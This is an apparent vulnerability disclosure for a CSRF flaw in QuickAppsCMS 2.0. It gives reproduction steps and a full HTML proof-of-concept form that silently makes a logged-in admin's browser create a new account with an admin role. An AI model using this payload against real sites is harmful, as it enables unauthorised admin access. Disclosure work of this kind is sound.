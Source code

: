 # CVE-2018-xxxx

## Summery
this vuln is CSRF vuln that allows to create any kinds of account.

When an attacker induce authorized victims to a malicious webpage and make them send requests. a victim creates an account without their intent.

## Target 
[Quickappscms 2.0](http://www.quickappscms.org/)

## Reproduce
This is a step how to reproduce.
 1. Access to the html page has payload content after you login to admin(/en_US/admin/) page.

Then you find an admin account is created.



## Payloads

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://your.cms.domain.example.com/en_US/admin/user/manage/add" method="POST">
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="hidden" name="name" value="test" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="email" value="test&#64;example&#46;com" />
      <input type="hidden" name="web" value="" />
      <input type="hidden" name="locale" value="" />
      <input type="hidden" name="status" value="0" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="password" value="testtest" />
      <input type="hidden" name="password2" value="testtest" />
      <input type="hidden" name="roles&#91;&#95;ids&#93;" value="" />
      <input type="hidden" name="roles&#91;&#95;ids&#93;&#91;&#93;" value="1" />
      <input type="hidden" name="welcome&#95;message" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

## Reference
 - [GitHub IssuePage]()

## Event
 - 2018-03-15 this vulnerability is discovered.
 - 2018-03-27 Open an issue on Github.
 - 

